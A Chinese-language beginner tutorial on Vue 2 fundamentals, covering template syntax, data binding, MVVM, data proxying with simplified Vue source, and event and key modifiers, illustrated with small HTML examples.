

# Vue 基础

## 一、Vue 基本用法

### 1.1 初识 Vue

初学者不建议刚开始就用脚手架，我们先从普通 html 开始。在`<head>`里使用`<script src="xxx">`方式引入 Vue 库，并修改`productionTip`配置项，用于关闭浏览器 DevTools 里 Vue 的“请使用生产版本”提示信息。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <!-- 引入Vue -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <script type="text/javascript">
      // 阻止 vue 在启动时生成生产提示。
      Vue.config.productionTip = false;
    </script>
  </body>
</html>
```

引入 Vue 库之后想要具体使用它，先准备一个 div**容器**，并给它一个 id 属性（也可以 class）；然后在`<script>`里**new**一个**Vue 实例**，并传入**配置对象**。**配置对象**中的`el`，是用来关联之前准备好的 div 容器（将 Vue 实例挂载到根节点上），其**值**一般是`#root`这种 css 选择器字符串形式，也可以直接找到那个容器`el: document.getElementById('root')`。**配置对象**中的`data`，是 Vue 实例的**存储数据**，可供关联容器使用，其**值**可以是**对象**（在[组件](./2.vue进阶.md#二、vue组件化编程)里是**函数**，该函数再返回**对象**）。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <!-- 准备一个容器。使用id选择器，也可以是class选择器 -->
    <div id="root">
      <!-- {{}}是插值形式，属于模板语法。它可以使用Vue实例存储的数据 -->
      <h1>hello {{name}}</h1>
    </div>
    <script type="text/javascript">
      // 阻止 vue 在启动时生成生产提示。
      Vue.config.productionTip = false;
      // 对Vue进行实例化
      const vm = new Vue({
        el: "#root", // el用于指定当前Vue实例为哪个容器服务，值通常为CSS选择器字符串
        data: {
          // data用于存储数据，数据供el所指定容器去使用，值暂时为一个对象
          name: "张三",
        },
      });
    </script>
  </body>
</html>
```

一个容器是否能关联多个 Vue 实例？一个 Vue 实例是否能关联多个容器？答案是**都不可以**，容器和 Vue 实例是**一一对应的**，不存在一对多或者多对一的关系。比如下面的写法是**不规范的**；如果写多个 class 形式的 root 容器，用一个 Vue 实例关联他们，结果是只有第一个 root 容器会正确渲染，代码就不演示了。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h1>hello {{name}}</h1>
      <!-- name显示的是张三 -->
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      new Vue({
        el: "#root",
        data: { name: "张三" },
      });
      // 不规范，也不会对那个root容器产生影响
      new Vue({
        el: "#root",
        data: { name: "李四" },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. 想让 Vue 工作，就必须创建一个**Vue 实例**，且要传入一个**配置对象**；
2. root 容器里的代码依然符合 HTML 规范，只不过混入了一些**特殊**的 Vue 语法（[模板语法](./1.vue基础.md#_1-2-模板语法)）；
3. Vue 实例和容器是**一一对应**的；真实开发中**只有一份**Vue 实例（和一个根节点），并且会配合着[组件](./2.vue进阶.md#二、vue组件化编程)一起使用；

---

### 1.2 模板语法

**模板语法**是一种基于 HTML 的语法，它可以在模板里使用**Vue 实例存储的数据**。模板语法有**插值**和**指令**两类。

其中**插值**是为了参与**标签体内容**的展示。插值使用两个**花括号**将一个**js 表达式**括起来的，例如`{{xxx}}`，其中的 xxx 就是 js 表达式。

- 那还得区分“**js 表达式**”和“**js 语句**”：
  - js 表达式：一个表达式会产生一个值，可以放在任何一个**需要值**的地方，例如`a`（变量）、`a+b`、`demo(1)`、`x === y ? 'a' : 'b'`。
  - js 语句：基本语法组成的语句，还有完整的赋值、运算语句等，例如`if(){}`、`for(){}`、`var a = 1`。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- {{}}里使用js表达式，不能写if语句不能写for语句等 -->
      <h1>hello {{name}} - {{11+22}} - {{Date.now()}}</h1>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
        },
      });
    </script>
  </body>
</html>
```

**指令**是 Vue 提供的一些**特殊 attribute**，每个**指令**的功能和作用点有些不一样（不止作用在标签内容体，要比**插值**作用范围广）。指令的前缀是`v-`，其**值**一般期望为**js 表达式**（`v-on`、`v-for`会特殊些），当值改变时，会动态作用于相关的 DOM。

下面就是一个使用`v-bind`指令例子，用于给**标签属性**绑定值（其他指令并不一定作用于标签属性），`v-bind`也能作用于**自定义属性**。有些指令是可以进行**简写**的，`v-bind:`可以简写为`:`，还有`v-on:`可简写为`@`，像`v-if`和`v-for`就不可以简写。注意不要将`{{}}`写在**标签属性**里，会报错，**插值**是用在**标签体**的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h1>插值语法</h1>
      <h1>hello {{name}}</h1>
      <h1>指令语法</h1>
      <!-- 指令的值是个表达式，url的值是'www.baidu.com'，最后href就是这个字符串 -->
      <a v-bind:href="url">{{name}}，请看这里</a><br />
      <!-- v-bind:可以简写为: -->
      <a :href="url">{{name}}，请看这里</a><br />
      <!-- 可以绑定其他属性，包括自定义属性 -->
      <a :x="msg">{{name}}，请看这里</a>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
          url: "www.baidu.com",
          msg: "xxxxx",
        },
      });
    </script>
  </body>
</html>
```

前面使用的`{{name}}`和`:href="url"`，一直没有解释为什么能直接使用`name`和`url`，这其中咋没出现`vm`和`data`呢？没有出现`vm`的原因是，**模板语法**可以直接访问`vm`的**所有属性**（无需`vm.xxx`）。没有出现`data`的原因有两个，这会在[2.2 Vue 的数据代理](./1.vue基础.md#_2-2-vue的数据代理)里解释。反正记住**模板语法**里可以直接写**原配置对象**里**data**的**所有属性**。

---

**总结拓展**：

1. 插值语法：  
   功能：用于解析**标签体内容**（标签闭合的内容）。  
   写法：`{{xxx}}`，xxx 是**js 表达式**。
2. 指令语法：  
   功能：用于解析**标签**（包扩：标签属性、标签体内容、绑定事件...）。  
   举例：`v-bind:href="xxx"`或简写为`:href="xxx"`，xxx 是**js 表达式**。  
   备注：这里是拿`v-bind`作为例子，Vue 还是**其他常用的指令**，可作用于**标签体内容**等，**但**值也不一定就是 js 表达式。
3. **模板语法**里不要出现`vm`和`data`的字样，可直接写**原配置对象**里**data**的**所有属性**。

---

### 1.3 单向和双向数据绑定

前面我们使用过`v-bind`对标签属性进行了**数据绑定**，可以直接读取到 data 中的**所有属性**（`{{}}`也可以），并且一旦 data 中的数据发生**改变**，那么页面中用到该数据的地方也会**自动更新**。我们用以下代码并配合使用`Vue Devtools`对 data 数据进行修改，页面里使用到对应 data 数据的地方都会重新渲染。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- v-bind是单向的，{{}}也是单向的，数据控制着页面展示 -->
      单向数据绑定1：<a v-bind:href="url">hello, {{name}}</a><br />
      单向数据绑定2：<input type="text" v-bind:value="text" />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      new Vue({
        el: "#root",
        data: {
          name: "张三",
          url: "www.baidu.com",
          text: "你好呀！",
        },
      });
    </script>
  </body>
</html>
```


你会发现从“**数据**”到“**页面**”这是一种**单方向**的控制，反过来就不行了。在上面例子**输入框**里输入**新**的值，你会发现虽然输入框内容展示**变了**，但`Vue Devtools`的 data 里的 text**不会跟着变**，可以看下面的效果图。我们将使用`v-bind`以达到“**存储数据**”**单向控制**“**页面展示**”的方式称为**单向数据绑定**（`{{}}`也是单向的）。


要想让输入框内容的改变**影响**到 data 里的 text（也就是“页面”也能控制“存储数据”），是可以使用`v-model`的**双向数据绑定**，代码如下。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      单向数据绑定：<input type="text" v-bind:value="textOne" /><br />
      双向数据绑定：<input type="text" v-model:value="textTwo" />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      new Vue({
        el: "#root",
        data: {
          textOne: "你好呀！",
          textTwo: "我不好！",
        },
      });
    </script>
  </body>
</html>
```


`v-model`一般用在**输入**类或者说**表单**类元素里，因为表单类元素有“**用户操作**”的点。其他普通元素没有“**用户操作**”的地方，而且也**不需要**让普通元素来**影响**到 data 数据。

**一般来说**，`v-model`绑定的是**表单**类元素的**value 属性**，这样的情况是可以**简写**的，例如`v-model:value`简写为`v-model="xxx"`。如果绑定的属性**不是 value 属性**，就**不要**进行简写了。还有就是，如果**你强行使用**`v-model`到**非表单类**元素里，Vue 会在控制台里发出**错误提示**。

```html
<!-- v-model是作用在表单元素的value上，所以连带value字段也隐藏了 -->
<input type="text" v-model:value="text" />
<input type="text" v-model="text" />
```

---

**总结拓展**：

1. 单向数据绑定(`v-bind`)：数据只能**从 data 流向页面**。
2. 双向数据绑定(`v-model`)：数据**不仅**能从 data 流向页面，**也**能从页面流向 data。
3. 双向数据绑定一般应用在**表单类**元素上（如：`<input>`、`<select>`等）。
4. `v-model:value`可以简写为`v-model`，因为`v-model`一般默认收集的就是**value 值**。

---

## 二、Vue 的 MVVM 和数据代理

### 2.1 Vue 的 MVVM

> 虽然没有完全遵循 [MVVM 模型](https://zh.wikipedia.org/wiki/MVVM)，但是 Vue 的设计也受到了它的启发。——Vue 官网

1. M：模型（Model），对应 data 中的数据，开发人员编写的 js 对象等原始数据。
2. V：视图（View），模板，其实最后都是页面上 DOM。
3. VM：视图模型（ViewModel），Vue 实例对象，它提供了很多功能，比如数据绑定和 DOM 监听。


最难理解的就是 VM，它代表就是 Vue 框架，给开发人员提供很多有用的**属性**和**方法**。把 Vue 框架引入我们自己的项目并将其实例化（具体化），那得到就是常命名为`vm`的**Vue 实例**了，如下图。


在[1.2 模板语法](./1.vue基础.md#_1-2-模板语法)里说过“**模板语法**可以直接访问`vm`的**所有属性**”（这是 Vue 规定的），**所有属性**包括**内部属性**以及**原型上的属性**，这是 Vue 框架给开发人员提供使用的**一部分**能力，另一部分是可以在 js 代码里使用 Vue 自带的**方法**（框架提供的方法，例如`$mount`是另一种挂载方式）。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 这个是data数据 -->
      <h1>hello {{name}}</h1>
      <!-- 这个是内部属性 -->
      <h1>_c：{{_c}}</h1>
      <!-- 这个是原型上的 -->
      <h1>$destroy：{{$destroy}}</h1>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: { name: "张三" },
      });
    </script>
  </body>
</html>
```


上图的**vm**里除了有**自身**的属性，也出现了**data**里的**所有属性**，这会在接下来的[2.2 Vue 的数据代理](./1.vue基础.md#_2-2-vue的数据代理)里进行解释。

---

**总结拓展**：

1. M**模型**（Modle），data 中的数据；V**视图**（View），模板代码；VM**视图模型**（ViewModel），Vue 实例。
2. vm 身上的所有属性及 Vue 原型上的所有属性，在 Vue 模板中都可以**直接使用**。
3. data 中**所有**的属性，最后都出现在了**vm**身上。

---

### 2.2 Vue 的数据代理

**数据代理**是指通过一个对象**代理**对另一个对象中属性的**操作**（读/写），在使用的时候我们只接触到了**表面**的那个对象，而另外一个对象会**隐藏**在暗处。

要搞清楚**数据代理**，首先得了解[数据属性](/front-end/html、css、js、ts/学习JavaScript/4.面向对象程序设计.md#_1-1-1-数据属性)、[访问器属性](/front-end/html、css、js、ts/学习JavaScript/4.面向对象程序设计.md#_1-1-2-访问器属性)、`Object.defineProperty()`方法。

**数据属性**有四个**特性**，`[[Configurable]]`可配置的，`[[Enumerable]]`可枚举的，`[[Writable]]`可重写的，`[[Value]]`属性值。**访问器属性**也有四个**特性**，`[[Configurable]]`可配置的、`[[Enumerable]]`可枚举的、`[[Get]]`和`[[Set]]`（我们常说的 getter 和 setter）。

使用属性的基本**特性**并搭配`Object.defineProperty()`可以实现简单的**数据代理**。

```js
// 通obj2去代理obj1的x属性
let obj1 = { x: 200 };
let obj2 = { x: 300 };
Object.defineProperty(obj2, "x", {
  get() {
    return obj1.x;
  },
  set(value) {
    obj1.x = value;
  },
});
```

我们先不着急说 Vue 中的**数据代理**，我们先想一下**配置对象**的**data**存到哪里去了。在实例化 Vue 时，`Vue()`构造函数会处理**配置对象**，将其中的`data`数据存到 Vue 实例的`_data`（也就是`vm._data`）。可以看下面简化的 Vue 源码（在源码里搜`function Vue`），具体到下面代码的到`initData(vm)`里会有对上面“将其中的`data`数据存到 Vue 实例的`_data`”的印证。

```js
// 无关紧要的都删掉不看了
function Vue(options) {
  // vm会是以后的Vue实例，options就是配置对象
  var vm = this;
  // 将options合并后到vm.$options，暂不用管mergeOptions和xxx是什么
  vm.$options = mergeOptions(xxx, options || {}, vm);
  // 数据处理相关
  initState(vm);
}
function initState(vm) {
  initData(vm);
}
// 重点来了，将配置对象的data存储数据都给了vm._data
function initData(vm) {
  var data = vm.$options.data;
  data = vm._data = typeof data === "function" ? getData(data, vm) : data || {};
}
```

我们知道了数据最终会存到`vm._data`里，那为什么**插值**和**指令**在**访问数据**时反而没有用到`_data`呢？原因是 Vue 做了**数据代理**，让**vm**代理**vm.\_data**里的所有属性，达到了[上一小节](./1.vue基础.md#_2-1-vue的mvvm)末尾所说的“**data 中所有的属性最后都出现在了 vm 身上**”。减少了一层`_data`的访问，方便了开发人员在**模板**中**更简便**地使用**存储数据**。

我们可以**接着上面的简化源代码**，继续看是怎样让`vm`**代理**`vm._data`的。

```js
// 无关紧要的都删掉不看了
function initData(vm) {
  var data = vm.$options.data;
  // 将配置对象的data存储数据都给了vm._data
  data = vm._data = typeof data === "function" ? getData(data, vm) : data || {};
  // 遍历对象所有的属性key
  var keys = Object.keys(data);
  var i = keys.length;
  // 代理所有的属性
  while (i--) {
    var key = keys[i];
    proxy(vm, "_data", key);
  }
}
// 访问器属性的四个特性
var sharedPropertyDefinition = {
  enumerable: true,
  configurable: true,
  get: function (a, b, c) {},
  set: function (a, b, c) {},
};
/**
 * 重点来了，使用Object.defineProperty将vm._data的所有属性都加到vm上了
 * 读取的时候，实际读的是vm._data.xxx
 * 修改的时候，实际改的是vm._data.xxx
 */
function proxy(target, sourceKey, key) {
  // getter
  sharedPropertyDefinition.get = function proxyGetter() {
    return this[sourceKey][key];
  };
  // setter
  sharedPropertyDefinition.set = function proxySetter(val) {
    this[sourceKey][key] = val;
  };
  // 添加key，并设置特性
  Object.defineProperty(target, key, sharedPropertyDefinition);
}
// 这只是讲了数据代理，至于数据劫持，在[七、Vue的数据监视](#七vue的数据监视)里会将
```

[1.2 模板语法](./1.vue基础.md#_1-2-模板语法)的末尾“没有出现`data`”的**两个原因**，就是这一小节讲的：1) `data`会存到`vm._data`；2) 模板语法里要去掉`_data`这一层访问。

---

**总结拓展**：

1. Vue 实例化时，配置对象中的`data`最终会存储到`vm._data`里。
2. Vue 中的**数据代理**：通过`vm`来**代理**`vm._data`中**属性**的**操作（读/写）**。
3. Vue 中数据代理的好处：在模板中更加方便的读写`_data`中的数据。
4. 基本原理：
   1. 通过`Object.defineProperty()`把`vm._data`中**所有的属性**添加到`vm`上；
   2. 为每一个添加到`vm`上的**属性**，都指定一个**getter/setter**；
   3. 在 getter/setter**内部**去**操作（读/写）**`vm._data`中对应的属性。

---

## 三、在 Vue 中处理事件

### 3.1 事件处理

要给元素**绑定事件**，需要用到 Vue 的`v-on`指令。其值通常是**事件回调函数**，值还可以是一些**简单语句**（例如改变状态`xxx = !xxx`）。那这个回调函数定义在哪呢？当然还是 Vue 的**配置对象**里，具体在`methods`里（`methods`、`el`和`data`平级）。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- v-on用于绑定事件 -->
      <button v-on:click="showInfo">点击我提示信息</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          showInfo() {
            alert("提示！！！");
          },
        },
      });
    </script>
  </body>
</html>
```

要注意的几点：

1. `v-on:`是可以简写为`@`的（例如`v-on:click`简写为`@click`）；
2. `methods`里的**方法**最好**不要**写成**箭头函数**（写成**普通函数**），因为箭头函数**没有自己的 this**，那实际 this 的指向**可能不是**我们需要的。
3. 回调函数有个**默认参数**是**event**，是常用的**事件对象**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- v-on可以简写为@ -->
      <button @click="showInfo">点击我提示信息</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          // showInfo最好写成普通函数，this指向vm
          showInfo(e) {
            // e是点击事件对象
            console.log("e", e);
            alert("提示！！！");
          },
        },
      });
    </script>
  </body>
</html>
```

实际开发中，事件回调函数是需要接受类似`index`的**参数**，那么写成`@click="showInfo(66)"`吗？这样是不行的，这样会**丢失 event 事件对象**，Vue 为我们处理了这个问题，它使用`$event`给事件对象**占位**，这样就不会丢失了。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- $event为事件对象；也可以showInfo($event, 66) -->
      <button @click="showInfo(66, $event)">点击我提示信息</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          showInfo(index, e) {
            console.log("e", e);
            alert("提示！！！" + index);
          },
        },
      });
    </script>
  </body>
</html>
```

你可能会想到把 methods 里的方法**移到**data 里，**可以**但**没必要**。因为 data 里的是**存储数据**，**存储数据**的变动会影响到**页面的渲染**，而 methods 里的方法大多是事件的**回调函数**（不是什么要紧**数据**），**函数对象**的**变化**基本**不会**对**页面渲染**产生影响，所以**移到**data 是没有必要的。

可以看到前面例子里`@click="showInfo"`，都是直接调用`showInfo`，并没有经过一层`methods`或`_methods`。是的，`Vue()`**构造函数**里处理了这件事，先是使用`bind()`生成了**新方法**（并改了`this`为`vm`），最后把这些**新方法**放到了`vm`上。这样少了一层`methods`或`_methods`访问，方便开发人书写。`Vue()`构造函数中与`methods`相关的简化源代码如下。

```js
// 无关紧要的都删掉不看了
function Vue(options) {
  // vm会是以后的Vue实例，options就是配置对象
  var vm = this;
  // 将options合并后到vm.$options，暂不用管mergeOptions和xxx是什么
  vm.$options = mergeOptions(xxx, options || {}, vm);
  // 数据处理相关
  initState(vm);
}
function initState(vm) {
  // 这是这一节的重点
  initMethods(vm, vm.$options.methods);
  // 这是 2.2 Vue的数据代理 那节的重点，这里忽略
  initData(vm);
}
/**
 * 重点来了，使用bind生成了同methods[key]一样的方法，并将vm作为新方法的this
 * 最后就是将新方法放到了vm里同属性key里
 */
function initMethods(vm, methods) {
  for (var key in methods) {
    // noop就别管了，使用bind是重点，为啥不直接给vm，而是新生成一个函数，可能是考虑到闭包问题
    vm[key] = typeof methods[key] !== "function" ? noop : bind(methods[key], vm);
  }
}
```

那 data 存储数据咋不也直接给到 vm？咋还要经过`_data`这个对象呀？其实前面就说过`data`与`methods`不一样，`methods`里的只是**方法**，没有复杂的变化，直接给 vm 就行了（Vue 框架内部并不会用到`methods`）。而`data`里的是**数据**，经常**变动**还涉及到**页面重新渲染**，再说，多加一个`_data`也方便**内部框架**使用，web 开发人员相当于是**外部**使用，两者分开来**更加科学**。

---

**总结拓展**：

1. 使用`v-on:xxx=""` 或 `@xxx=""`绑定事件，其中 xxx 是**事件名**；
2. 事件的回调需要配置在**methods 对象**中，最终会在**vm**上；
3. methods 中配置的函数，最好**不要使用**箭头函数！否则 this 就不是 vm 了；
4. methods 中配置的函数，都是被 Vue 所管理的函数，this 的指向是**vm**或组件**实例**对象；
5. `@click="demo"`和`@click="demo($event)"`效果一致，但后者可以**传参**。
6. methods 并不像 data 还有**数据代理**，它是直接给**vm**的，并没有`_methods`的中间层。

---

### 3.2 事件修饰符

在开发过程中经常遇到`event.preventDefault()`或`event.stopPropagation()`等需求，Vue 给我们提供**事件修饰符**来简化写法（将回调函数中**处理 DOM**的步骤**抽离出来**）。**事件修饰符**常使用`@click.xxx=""`的写法，其中`.xxx`就是事件修饰符，事件修饰符有`.prevent`、`.stop`、`.once`、`.capture`、`.self`、`.passive`，前三个会比较常见。

- `.prevent`是用于阻止元素的**默认行为**，比如`<a>`标签的**默认行为**是**跳转页面**，点击`<a>`要弹出提示框但是**不让**跳转页面，就可以使用`@click.prevent=""`，功能同回调函数里的`event.preventDefault()`一样。
- `.stop`是用于阻止**事件冒泡**，比如多层`<div>`嵌套，但我只让最里层的`<div>`的事件触发，让外层`<div>`都不触发事件，就可以使用`@click.stop=""`，功能同回调函数里的`event.stopPropagation()`一样。
- `.once`最简单，让元素**只进行一次事件触发**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <style>
      * {
        margin: 20px 10px;
      }
      /*display: flow-root会创建无副作用的BFC*/
      .outer {
        display: flow-root;
        width: 200px;
        height: 100px;
        background-color: green;
      }
      .inner {
        width: 150px;
        height: 40px;
        margin: 10px 20px;
        background-color: brown;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- .prevent阻止默认事件 -->
      <a @click.prevent="showInfo" href="">点击我提示信息</a>
      <!-- .stop阻止事件冒泡，inner区域触发得了事件，并阻止click事件传到outer区域 -->
      <div class="outer" @click="showInfo">
        outer
        <div class="inner" @click.stop="showInfo">inner，点击我</div>
      </div>
      <!-- .once让事件只触发一次 -->
      <div class="inner" @click.once="showInfo">只能点击我提示一次信息哦</div>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          showInfo() {
            alert("提示！！！");
          },
        },
      });
    </script>
  </body>
</html>
```

`.capture`、`.self`、`.passive`不太常用。

- `.capture`是使用事件的**捕获模式**。嵌套元素（例如多层`<div>`嵌套）上有点击事件时，是从**最外层**向**最里层**逐层**检测**并**捕获**到事件的（**捕获阶段**），然后由捕获到事件**所在元素由里向外**逐层**调用**回调函数的（**冒泡阶段**），那`.capture`使用**捕获模式**会在**捕获阶段**就**调用**回调函数。
- `.self`表示只有当`event.target`是**当前操作**的元素时才触发事件。如果嵌套元素点击**最里层**元素，**向外冒泡**阶段时，`event.target`会一直是**最里层**那个元素，**外层元素**使用了`.self`就会**取消**自身的事件触发（相当于**阻止了冒泡**）。
- `.passive`让事件的**默认行为立即执行**，**无需**等待事件回调**执行完毕**。有些事件是在事件回调函数执行完毕**才让**元素的**默认行为执行**，例如`wheel`鼠标滚轮**滚动**事件，如果回调函数处理**很慢很慢**，那鼠标滚动效果在页面上就会**卡顿**，这就可以使用`@wheel.passive="xxx"`来解决问题。其实有些事件**本身**就是**默认行为先执行**，可就用不到`.passive`了，其实`.passive`在**移动端**会用的多点。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <style>
      * {
        margin: 20px 10px;
      }
      /*display: flow-root会创建无副作用的BFC*/
      .outer {
        display: flow-root;
        width: 200px;
        height: 100px;
        background-color: green;
      }
      .inner {
        width: 150px;
        height: 40px;
        margin: 10px 20px;
        background-color: brown;
      }
      .ul {
        width: 200px;
        height: 150px;
        overflow: auto;
        background-color: orangered;
      }
      li {
        height: 70px;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- .capture使用事件捕获模式，并且是加在外层容器上 -->
      <!-- 正常情况是冒泡阶段处理事件，先提示2再提示1；如果是捕获阶段处理，则先提示1再提示2 -->
      <div class="outer" @click.capture="showInfo($event, 1)">
        outer，点击我提示1
        <div class="inner" @click="showInfo($event, 2)">inner，点击我提示2</div>
      </div>
      <!-- .self，只有event.target是当前操作的元素时才触发事件 -->
      <!-- 点击inner，event.target会一直是inner，冒泡到outer，发现target与当前元素不一样，所以outer不会触发click -->
      <div class="outer" @click.self="showInfo">
        outer
        <div class="inner" @click="showInfo">inner，点击我提示</div>
      </div>
      <!-- .passive，事件的默认行为立即执行，无需等待事件回调执行完毕 -->
      <!-- 使用鼠标滚轮，由于.passive会让页面效果先出现再去调用demo函数 -->
      <ul class="ul" @wheel.passive="demo">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          showInfo(e, msg) {
            const str = msg ? msg : "";
            alert("提示" + str);
          },
          demo() {
            for (let i = 0; i < 20000; i++) {
              console.log(i);
            }
          },
        },
      });
    </script>
  </body>
</html>
```

**事件修饰符**能**连用**，比如一个`<a>`标签有`href`属性，并且`<a>`标签还在一个`<div>`内部，要阻止事件冒泡还要阻止默认行为，那代码可以这样写：

```html
<div class="outer" @click="showInfo">
  <!-- 也可以@click.prevent.stop，效果虽然一样，但运行还是有先后的 -->
  <a href="www.baidu.com" @click.stop.prevent="showInfo">请点击我</a>
</div>
```

---

**总结拓展**：

1. `prevent`，阻止默认事件（常用）；
2. `stop`，阻止事件冒泡（常用）；
3. `once`，事件只触发一次（常用）；
4. `capture`，使用事件的捕获模式；
5. `self`，只有`event.target`是当前操作的元素时才会触发事件；
6. `passive`，事件的默认行为**立即执行**，无需等待事件回调函数执行完毕。
7. 事件修饰符能**连用**，比如即阻止默认行为又阻止事件冒泡，`@click.stop.prevent`。

---

### 3.3 键盘事件

在开发过程中，我们经常需要判断是什么**按键按下**再去走什么逻辑，例如在键盘事件回调中写`if (e.key !== 'Enter') return`表示只有当**回车键**按下后再继续执行。其实 Vue 给我们提供**按键修饰符**来简化这些写法，常见的**按键修饰符**有`.enter`、`.delete`、`.esc`、`.space`、`.tab`、`.up`、`.down`、`.left`、`.right`。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- enter回车，delete删除或退格，esc退出，space空格，tab换行，up、down、left、right是上下左右 -->
      <input type="text" placeholder="按下回车提示输入的值" @keyup.enter="showInfo" />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          showInfo(e) {
            console.log(e.key, e.keyCode);
            alert(e.target.value);
          },
        },
      });
    </script>
  </body>
</html>
```

Vue**可能没有**为**所有**键设置按键修饰符，其实是可以使用**原始 key**（`e.key`）来暂替的，需要注意的是如果是**多单词组**成的 key 那就得使用`-`符号分隔了。

```html
<!-- CapsLock是大小写转换，使用时小写并用-分隔，caps-lock -->
<input type="text" placeholder="按下回车提示输入的值" @keyup.caps-lock="showInfo" />
```

有几个键用法稍微**特殊**点，`tab`、`ctrl`、`alt`、`shift`、`meta`，后四个是**系统键饰键**。`tab`的特殊之处是一般用于**keydown**，因为如果是**keyup**的话，键**弹起**的时候**焦点**已经**转移**了，其后回调函数**不会被执行**。**系统键键**也是类似的情况，用**keydown**是**正常情况**，用**keyup**的话，“**系统键**+**其他键**”**弹起**时才会触发 keyup 的回调函数。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- @keydown.ctrl会正常，@keyup.ctrl只有当ctrl+其他键弹起时触发，比如ctrl+a -->
      <input type="text" placeholder="按下回车提示输入的值" @keyup.ctrl="showInfo" />
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {},
        methods: {
          showInfo(e) {
            console.log(e.key, e.keyCode);
            alert(e.target.value);
          },
        },
      });
    </script>
  </body>
</html>
```

